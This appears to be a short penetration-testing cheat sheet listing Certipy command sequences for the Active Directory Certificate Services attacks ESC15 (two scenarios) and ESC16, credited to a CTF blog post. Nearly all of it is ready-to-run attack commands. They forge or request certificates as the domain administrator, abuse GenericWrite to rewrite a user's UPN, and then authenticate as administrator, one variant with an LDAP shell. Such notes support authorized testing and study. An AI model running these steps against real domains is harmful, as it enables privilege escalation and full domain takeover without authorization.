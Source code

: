 ##### ESC15

###### Scenario A

```sh
certipy req -u username@domain -p password -dc-ip ip -target dc -ca ca -template template -upn administrator@domain -sid <administrator sid> -application-policies 'Client Authentication'
```

```sh
certipy auth -pfx administrator.pfx -dc-ip ip -ldap-shell
```

###### Scenario B

```sh
certipy req -u username@domain -p password -dc-ip ip -ca ca -template WebServer -application-policies 'Certificate Request Agent'
```

```sh
certipy req -u username@domain -p password -dc-ip ip -ca ca -template User -pfx user.pfx -on-behalf-of 'DOMAIN\Administrator'
```

```sh
certipy auth -pfx administrator.pfx -dc-ip ip
```

##### ESC16

We use a user that has `GenericAll` or `GenericWrite`

```sh
certipy account -u owned_user@domain -p password -dc-ip ip -upn administrator -user username update
```

```sh
certipy req -u username@domain -p password -dc-ip ip -target dc -ca ca -template User -upn administrator@domain -sid <administrator sid>
```

```sh
certipy account -u owned_user@domain -p password -dc-ip ip -upn username -user username update
```

```sh
certipy auth -pfx administrator.pfx -dc-ip ip -domain domain
```

Big thanks to [Serioton](https://seriotonctf.github.io/) for the [ADCS Attacks with Certipy](https://seriotonctf.github.io/ADCS-Attacks-with-Certipy/index.html?utm_source=chatgpt.com) post that I based the commands off of <3